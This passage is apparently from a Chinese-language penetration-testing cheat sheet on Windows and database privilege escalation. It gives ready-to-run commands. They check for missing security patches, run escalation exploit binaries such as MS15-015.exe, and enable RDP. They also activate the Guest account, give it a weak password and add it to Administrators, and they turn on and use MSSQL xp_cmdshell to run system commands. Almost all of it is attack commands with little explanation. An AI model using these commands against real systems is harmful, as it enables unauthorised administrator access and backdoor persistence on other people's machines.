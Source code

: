 ```sh
KB2829361 KB3000061 KB2850851 KB2707511 KB970483 KB2124261 KB2271195 KB3031432) do @type C:\Windows\Temp\a.txt|@find
/i "%i"|| @echo %i Not Installed!)&del /f /q /a C:\Windows\Temp\a.txt

# windows 2012
systeminfo>C:\Windows\Temp\a.txt&(for %i in (KB3124280 KB3143141 KB3134228 KB3079904 KB3077657 KB3124280 KB3045171
KB2829361 KB3000061 KB2850851 KB2707511 KB970483 KB2124261 KB2271195 KB30
```

> 提权

根据补丁与漏洞对照表，可选择MS09-012 提权。具体提权原理涉及到Windows 系统底层知识，只需要使用提权EXP 即可

```
C:\RECYCLER\pr.exe "whoami"
C:\Windows\Temp\MS15-015.exe "whoami"
C:\inetpub\temp\IISTEM~1\8000-test\MS15-015.exe "whoami"
```

> 远程登录

```
#开启RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

#启用Guest 用户
net user Guest /active:yes
net localgroup administrators Guest /add
net user Guest 123.com
```

##  数据库提权

核心思路（必要条件）： 1.需要（最高权限）数据库账户；2. 利用数据库执行系统命令。

> MSSQL 提权

```
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 0;RECONFIGURE;

exec master..xp_cmdshell "whoami"
```



> MySQL 提权

MySQL 漏洞利用与提权:https://www.sqlsec.com/2020/11/mysql.html



## Linux 提权
